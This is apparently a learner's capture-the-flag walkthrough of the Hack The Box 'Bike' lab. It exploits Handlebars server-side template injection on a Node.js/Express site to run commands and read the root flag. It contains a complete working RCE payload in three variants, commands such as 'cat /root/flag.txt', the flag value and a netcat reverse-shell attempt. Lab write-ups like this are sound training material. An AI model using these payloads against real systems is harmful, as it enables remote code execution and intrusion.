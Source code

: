 
### BIKE
#Linux 


![[Screenshot 2024-05-13 at 8.52.35 PM.png]]

![[Screenshot 2024-05-13 at 8.54.27 PM.png]]


![[Pasted image 20240513205548.png]]


![[Pasted image 20240513210502.png]]

- **==Node.js==** is an open-source, cross-platform, back-end JavaScript runtime environment that can be used to build scalable network applications. 
- **==Express==** is a minimal and flexible Node.js web application framework that provides a robust set of features for web and mobile applications.

***
***


![[Pasted image 20240513205800.png]]


![[Screenshot 2024-05-13 at 8.58.37 PM.png]]

![[Pasted image 20240513210052.png]]




![[Screenshot 2024-05-13 at 9.07.18 PM.png]]

***
***
**WALKTHROUGH**
==`blob:https://app.hackthebox.com/bae30295-58d9-4640-b019-c2334eada987`==

HackTricks **SSTI** - Handlebars Vulnerability
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs

![[Pasted image 20240513212620.png]]

***
***


Identify the Template being used by injecting a function to see Server response

==`{{7*7}}`==

![[Screenshot 2024-05-13 at 9.45.39 PM.png]]

![[Screenshot 2024-05-13 at 9.43.41 PM.png]]


We saw that we are submitting information via POST request. 

Capture request in ==**Burpsuite**== to modify

![[Pasted image 20240513214833.png]]

Send to **Repeater**
![[Screenshot 2024-05-13 at 9.48.55 PM.png]]


Now we can use HackTricks payload to exploit the backend code.

This will spawn a child process and execute ==`whoami`== command.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

But first, send put code in **==Burpsuit Decoder==** to **URL Encode**


![[Screenshot 2024-05-13 at 9.56.17 PM.png]]

Paste URL in email field for **Repeater**

![[Screenshot 2024-05-13 at 10.05.36 PM.png]]

Server Response:

![[Screenshot 2024-05-13 at 10.05.56 PM.png]]


![[Screenshot 2024-05-13 at 10.06.50 PM.png]]

This will ultimately need to be researched further. I needed the walkthrough to guide me on how to call global variables etc.

Essentially modifying the require function to call deprecated modules that will perform system level calls for us to exploit in our payloads


```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![[Screenshot 2024-05-13 at 10.12.26 PM.png]]

We have successfully loaded the mainModule.require object and module.

Modify to call ==`whoami`==

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
![[Screenshot 2024-05-13 at 10.14.54 PM.png]]


List directories using this method

![[Screenshot 2024-05-13 at 10.16.12 PM.png]]

==`ls /root`==

![[Screenshot 2024-05-13 at 10.16.53 PM.png]]

==`cat /root/flag.txt`==
![[Screenshot 2024-05-13 at 10.18.08 PM.png]]

flag : 6b258d726d287462d60c103d0142a81c


- Tried to gain a reverse shell using ==`nc <Target_IP_Listener> <Target_Port> -e /bin/bash`== but received an error that `-e` was not a valid option. Try these workarounds 
https://www.grobinson.me/reverse-shells-even-without-nc-on-linux/


***
***

